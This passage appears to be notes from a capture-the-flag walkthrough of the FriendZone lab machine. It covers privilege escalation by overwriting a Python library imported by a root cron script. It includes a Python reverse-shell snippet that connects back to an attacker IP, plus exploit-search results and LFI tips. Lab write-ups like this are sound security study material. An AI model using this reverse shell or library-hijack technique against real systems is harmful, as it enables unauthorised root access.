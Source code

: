 * Maybe an exploit for that will get me root? It's running as debian user? 

```
exim 4.90 - Remote Code Execution | exploits/linux/remote/45671.py
Exim < 4.90.1 - 'base64d' Remote Code Execution | exploits/linux/remote/44571.py
```

* The first actually requires < 4.90, so won't work. No luck with these. 
* I can send mail with /usr/sbin/exim4 and it shows up in /var/mail/friend. Just get errors on sending to those two addresses. 
* Looked up on gtfobins for mail related things. See a mail binary and look it up, maybe exploits:

```
friend@FriendZone:~$ mail --version
mail (GNU Mailutils) 3.4
GNU Mailutils 3.7 - Privilege Escalation | exploits/linux/local/47703.txt
```

* Doesn't have the suid bit, so that privesc doesn't work. 
* Didn't think to check the dependencies of the script. 
* Use pspy and confirm it's running sometimes. 

```
friend@FriendZone:~$ ./pspy64 | grep reporter
2020/06/07 15:54:44 CMD: UID=1000 PID=25834  | grep --color=auto reporter 
2020/06/07 15:56:01 CMD: UID=0    PID=25851  | /usr/bin/python /opt/server_admin/reporter.py 
2020/06/07 15:56:01 CMD: UID=0    PID=25850  | /bin/sh -c /opt/server_admin/reporter.py 
2020/06/07 15:58:01 CMD: UID=0    PID=25859  | /usr/bin/python /opt/server_admin/reporter.py 
2020/06/07 15:58:01 CMD: UID=0    PID=25858  | /bin/sh -c /opt/server_admin/reporter.py
```

* I can overwrite the os.py script that it depends on. Since it's not actually calling any functions I can make it run on import by just adding code to it without being in a function. 
* Tried to just read the file by doing subprocess commands to cat and change permissions on the file but didn't seem to work for some reason. Ended up just adding a python shell to the end of the file. Interestingly, this runs whenever you run python, not just on a file. 

```
import subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.14",1235))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

* get a callback and read foot file. 

# Lessons

* smb-enum-shares is pretty solid and smbmap doesn't seem to work for some restrictions on smb? 
* php filter encode in url with that trick when you have LFI if it otherwise runs a php file. 
* If webpage doesn't seem to act right, restart or turn off burp. 
* Can't overwrite a script? Maybe you can overwrite the functions or libraries it includes? 